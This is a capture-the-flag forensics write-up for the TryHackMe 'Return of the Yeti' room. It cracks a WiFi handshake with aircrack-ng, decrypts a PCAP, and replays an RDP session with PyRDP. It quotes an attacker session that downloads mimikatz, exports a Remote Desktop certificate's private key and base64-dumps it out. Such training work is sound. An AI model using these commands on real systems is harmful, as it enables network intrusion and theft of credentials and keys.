





# Return of the Yeti
https://tryhackme.com/room/adv3nt0fdbopsjcap

## What's the name of the WiFi network in the PCAP?

I Used wireshark to find out information we need. First packet gives us the answer

## What's the password to access the WiFi network?

This can be done with many tools, but I used aircrack-ng. Before that, file needs to be saved as pcap instead of pcapng.

Wireshark in column `Source` shows us `BSSID: 22:c7:12:c7:e2:35`

I used aircrack-ng, and rockyou.txt wordlist.

    ┌──(kali㉿kali)-[~/Documents/SQ1]
    └─$ aircrack-ng -w /usr/share/wordlists/rockyou.txt -b "22:c7:12:c7:e2:35" VanSpy.pcap
    Reading packets, please wait...
    Opening VanSpy.pcap
    Read 45243 packets.
    
    1 potential targets
                                   Aircrack-ng 1.7 
    
          [00:00:14] 39071/14344392 keys tested (2793.07 k/s) 
    
          Time left: 1 hour, 25 minutes, 21 seconds                  0.27%
    
                               KEY FOUND! [ PASSWORD WILL BE HERE ]
    
    
          Master Key     : A8 3F 1D 1D 1D 1F 2D 06 8E D4 47 CE E9 FD 3A AA 
                           B2 86 42 89 FA F8 49 93 D7 C1 A0 29 97 3D 44 9F 
    
          Transient Key  : AA 24 81 FA 38 12 C3 42 F1 B3 12 0C E1 16 71 4F 
                           D1 90 1C 7B 0F AF CE 67 29 02 53 EB 4B 28 3A E7 
                           AC B6 2F 4A 32 28 5E BF 83 52 6F 00 00 00 00 00 
                           00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    
          EAPOL HMAC     : C1 0A 70 D9 65 94 5B 57 F2 98 8A E0 FC FD 2B 22 

`KEY FOUND:` Reveals us the password!

## What suspicious tool is used by the attacker to extract a juicy file from the server?

I wanted to see the traffic as a whole. I know the SSID and Password, so I used password we found, so to  decrypt packets. 

That can be done from Wireshark settings. `Edit > Preferences > Protocols > IEE 802.11 wireless LAN > Decryption key`, Format is: `password:wifiname`

Now I can take a look at TCP Streams, and try to find something. That can be done from: `Statistics > Conversations > TCP`

I organized the TCP Streams from largest to smallest and then pressed "Follow Stream" to see whats happening. And we can see that there is few streams with much action. Lets open them starting from the one that has most packets.

    tcp.stream eq 1
    
    ...)$......Cookie: mstshash=elf
    
    .................4.......................%..X]|r...w.........._.P....* ..Bt......S..i.p....z./.......}..:.........,.....

Nothing found from this, this is probably decrypted later.

Lets open second stream from the list and Follow that. That is: `tcp.stream eq 1005`

    Directory: C:\Users\Administrator
    
    
    Mode                LastWriteTime         Length Name                                             
    ----                -------------         ------ ----                                             
    d-----       11/23/2023   9:47 PM                .ssh                                             
    d-r---        3/17/2021   3:13 PM                3D Objects                                       
    d-r---        3/17/2021   3:13 PM                Contacts                                         
    d-r---       11/25/2023   2:12 PM                Desktop                                          
    d-r---        3/17/2021   3:13 PM                Documents                                        
    d-r---       11/24/2023  10:53 PM                Downloads                                        
    d-r---        3/17/2021   3:13 PM                Favorites                                        
    d-r---        3/17/2021   3:13 PM                Links                                            
    d-r---        3/17/2021   3:13 PM                Music                                            
    d-r---       11/24/2023  10:44 PM                Pictures                                         
    d-r---        3/17/2021   3:13 PM                Saved Games                                      
    d-r---        3/17/2021   3:13 PM                Searches                                         
    d-r---        3/17/2021   3:13 PM                Videos                                           
    -a----       11/25/2023   6:01 AM           8192 psh4444.exe                                      
    
    
    PS C:\Users\Administrator> whoami
    intern-pc\administrator
    PS C:\Users\Administrator> wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -O mimi.zip
    PS C:\Users\Administrator> Expand-Archive .\mimi.zip
    PS C:\Users\Administrator> mv mimi/x64/mimikatz.exe .
    PS C:\Users\Administrator> cmd /c mimikatz.exe privilege::debug token::elevate crypto::capi "crypto::certificates /systemstore:LOCAL_MACHINE /store:\`"Remote Desktop\`" /export" exit
    
      .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
    
    mimikatz(commandline) # privilege::debug
    Privilege '20' OK
    
    mimikatz(commandline) # token::elevate
    Token Id  : 0
    User name : 
    SID name  : NT AUTHORITY\SYSTEM
    
    496	{0;000003e7} 1 D 16529     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
     -> Impersonated !
     * Process Token : {0;0002bbfa} 2 D 25564822  	INTERN-PC\Administrator	S-1-5-21-1966530601-3185510712-10604624-500	(14g,24p)	Primary
     * Thread Token  : {0;000003e7} 1 D 25609341  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)
    
    mimikatz(commandline) # crypto::capi
    Local CryptoAPI RSA CSP patched
    Local CryptoAPI DSS CSP patched
    
    mimikatz(commandline) # crypto::certificates /systemstore:LOCAL_MACHINE /store:"Remote Desktop" /export
     * System Store  : 'LOCAL_MACHINE' (0x00020000)
     * Store         : 'Remote Desktop'
    
     0. INTERN-PC
        Subject  : CN=INTERN-PC
        Issuer   : CN=INTERN-PC
        Serial   : ffb1d93a1df0324cadd5e13f3f9f1b51
        Algorithm: 1.2.840.113549.1.1.1 (RSA)
        Validity : 11/22/2023 9:18:19 PM -> 5/23/2024 9:18:19 PM
        Hash SHA1: a0168513fd57577ecc0204f01441a3bd5401ada7
    	Key Container  : TSSecKeySet1
    	Provider       : Microsoft Enhanced Cryptographic Provider v1.0
    	Provider type  : RSA_FULL (1)
    	Type           : AT_KEYEXCHANGE (0x00000001)
    	|Provider name : Microsoft Enhanced Cryptographic Provider v1.0
    	|Key Container : TSSecKeySet1
    	|Unique name   : f686aace6942fb7f7ceb231212eef4a4_c5d2b969-b61a-4159-8f78-6391a1c805db
    	|Implementation: CRYPT_IMPL_SOFTWARE ; 
    	Algorithm      : CALG_RSA_KEYX
    	Key size       : 2048 (0x00000800)
    	Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
    	Exportable key : NO
    	Public export  : OK - 'LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.der'
    	Private export : OK - 'LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx'
    
    
    mimikatz(commandline) # exit
    
    Bye!
    
    PS C:\Users\Administrator> dir
    
    Directory: C:\Users\Administrator
    
    Mode                LastWriteTime         Length Name                                             
    ----                -------------         ------ ----                                             
    d-----       11/23/2023   9:47 PM                .ssh                                             
    d-r---        3/17/2021   3:13 PM                3D Objects                                       
    d-r---        3/17/2021   3:13 PM                Contacts                                         
    d-r---       11/25/2023   2:12 PM                Desktop                                          
    d-r---        3/17/2021   3:13 PM                Documents                                        
    d-r---       11/24/2023  10:53 PM                Downloads                                        
    d-r---        3/17/2021   3:13 PM                Favorites                                        
    d-r---        3/17/2021   3:13 PM                Links                                            
    d-----       11/25/2023   2:56 PM                mimi                                             
    d-r---        3/17/2021   3:13 PM                Music                                            
    d-r---       11/24/2023  10:44 PM                Pictures                                         
    d-r---        3/17/2021   3:13 PM                Saved Games                                      
    d-r---        3/17/2021   3:13 PM                Searches                                         
    d-r---        3/17/2021   3:13 PM                Videos                                           
    -a----       11/25/2023   2:56 PM            730 LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.der     
    -a----       11/25/2023   2:56 PM           2493 LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx     
    -a----       11/25/2023   2:56 PM        1206166 mimi.zip                                         
    -a----        9/19/2022   4:44 PM        1355264 mimikatz.exe                                     
    -a----       11/25/2023   6:01 AM           8192 psh4444.exe                                      
    
    
    PS C:\Users\Administrator> [Convert]::ToBase64String([IO.File]::ReadAllBytes("/users/administrator/LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx"))
    MIIJuQIBAzCCCXUGCSqGSIb3DQEHAa[REDACTED because of the length]
    
    PS C:\Users\Administrator> exit

So, Answer to question "What suspicious tool is used by the attacker to extract a juicy file from the server?" is `Mimikatz`

## What is the case number assigned by the CyberPolice to the issues reported by McSkidy?

From the `tcp.stream 1005` we can see that attacker created himself a certificate.

    PS C:\Users\Administrator> [Convert]::ToBase64String([IO.File]::ReadAllBytes("/users/administrator/LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx"))
        MIIJuQIBAzCCCXUGCSqGSIb3DQEHAa[REDACTED because of the length]

We can use that base64 string to recreate that certificate. I used powershell, with the following script:

    $BASE64_STR = get-content 'C:\Temp\base64certificate.txt' #Select location of your .txt file what contains Base64 string from mimikatz.
    $filename = 'C:\Temp\certificate.pfx' #Output location and name for the file
    $bytes = [Convert]::FromBase64String($BASE64_STR)
    [IO.File]::WriteAllBytes($filename, $bytes)

After that certificate is ready, I can import it to wireshark, to decrypt that pcap even more.

You can add certfificate from `Edit > Preferences > Protocols > TLS > RSA Keys list > Edit`

Default password for mimikatz when creating certificates is `mimikatz` and in this case i selected protocol tpkt and port 3389. They are connected to RDP.

That decrypts that stream more. I used PyRDP tool what is made for replaying RDP connections from .pcap files. https://github.com/GoSecure/pyrdp

I Created new .pcap file with tcp.stream eq 1005 and after that i created new replay file with PyRDP tool.

    ┌──(venv)─(kali㉿kali)-[~/Tools/pyrdp]
    └─$ pyrdp-convert.py ~/Documents/SQ1/RDP.pcap -f replay
    [*] Analyzing PCAP '/Documents/SQ1/RDP.pcap' ...
        - 10.0.0.2:55510 -> 10.1.1.1:3389 : plaintext
    [*] Processing 10.0.0.2:55510 -> 10.1.1.1:3389
     41% (3081 of 7405) |##########################################################################                                                                                                         | Elapsed Time: 0:00:01 ETA:   0:00:01
    [-] Failed to handle data, continuing anyway: unpack requires a buffer of 4 bytes
     71% (5321 of 7405) |################################################################################################################################                                                   | Elapsed Time: 0:00:01 ETA:   0:00:00
    [-] Failed to handle data, continuing anyway: unpack requires a buffer of 4 bytes
     99% (7343 of 7405) |#################################################################################################################################################################################  | Elapsed Time: 0:00:02 ETA:   0:00:00
    [-] Failed to handle data, continuing anyway: Trying to parse unknown MCS PDU type 12
    100% (7405 of 7405) |###################################################################################################################################################################################| Elapsed Time: 0:00:02 Time:  0:00:02
    
    [+] Successfully wrote '20231125145052_10.0.0.2:55510-10.1.1.1:3389.pyrdp'

Now i can launch video replay from RDP connection. 

    ┌──(venv)─(kali㉿kali)-[~/Tools/pyrdp]
    └─$ pyrdp-player.py 20231125145052_10.0.0.2:55510-10.1.1.1:3389.pyrdp

RDP-Player shows us a video from that RDP connection, and actually reveals us the case number assigned by the CyberPolice. That is seen in Email body. 

## What is the content of the `yetikey1.txt` file?

RDP-Replay also shows us that the attacker copied yetikey1.txt contents to clipboard, and we can also see clipboard contents using rdp-player.

